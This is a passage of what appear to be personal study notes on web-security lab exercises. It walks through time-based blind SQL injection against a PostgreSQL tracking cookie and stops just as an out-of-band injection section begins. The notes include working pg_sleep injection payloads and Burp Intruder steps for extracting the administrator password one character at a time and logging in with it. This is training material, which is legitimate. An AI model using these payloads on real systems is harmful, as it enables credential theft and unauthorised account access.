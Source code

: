 ```jBLFcMbX0aiwI7lY'||(SELECT ‘')||'```

11. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
12. To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.
13. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14. Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".
15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
16. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset 3, 4, and so on, until you have the whole password.
19. In your browser, click "My account" to open the login page. Use the password to log in as the *administrator* user.

**My comment**

Determine password length:

```';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END—```

Use Burp Suite Intruder to get password one character at a time. If the server responds in more than 10 secs then we know guessed the character correctly.

```';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users—```

```';SELECT CASE WHEN (username='administrator') AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users—```

```';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--```

## Exploiting blind SQL injection using out-of-band (OAST) techniques

### Blind SQL injection with out-of-band interaction

The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

**Solution**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the *TrackingId* cookie.
2. Modify the *TrackingId* cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

```